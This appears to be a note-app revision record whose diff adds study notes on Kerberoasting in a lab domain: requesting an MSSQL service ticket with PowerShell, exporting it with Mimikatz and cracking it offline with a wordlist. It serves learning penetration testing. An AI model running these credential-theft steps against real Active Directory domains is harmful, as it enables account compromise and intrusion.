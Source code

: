id: 7c2b599efe6c48e6985da587155639a6
parent_id: b8109ab004c34832a0f8e64ee5ee8e2e
item_type: 1
item_id: e96883416a4041dda72e97aa2b6a8f05
item_updated_time: 1643818893750
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"main&gt;\"],[1,\" domain/username:password\\\n\\\n![3525335922b08c8e3d89e088cd99e530.png](:/8dd9c9fe50f242d0b9b27c635da123ef)\\\n\\\nFound there is a MSSQL database service using the user's username on port 1433\\\n\\\nStep 2: Request for a ticket\\\n\\\nUsually use Mimikatz; For this tutorial, the guy used Powershell\\\n\\\n> Add-Type -AssemblyName System.IdentityModel\\\n> \\\n> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList \\\"MSSQLSvc/jefflabapp01.jefflab.local:1433\\\"\\\n\\\n![a79dbb030abf75cfc8c0d4c33376e440.png](:/2f2add0c25ac4d3392541d04ee5bd118)\\\n\\\nStep 3: Dump the ticket out using Mimikatz\\\n\\\n> kerberos::list /export\\\n\\\n![91ab82259b7eef73eca50ac6095a2f97.png](:/50f45f893de24074a86b00a53b896cff)\\\n\\\nStep 4: Crack the ticket\\\n\\\n> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;.kirbi file&gt;\\\n\\\n![d9545efb70035cdce440ba8236697ffc.png](:/3e2879fa726e4deeb8ed72c03d2905c7)\\\n\\\n<ins>Continuing guide</ins>\"],[0,\"\\\n\\\n## .12\"]],\"start1\":538,\"start2\":538,\"length1\":16,\"length2\":930}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-02T16:21:44.253Z
created_time: 2022-02-02T16:21:44.253Z
type_: 13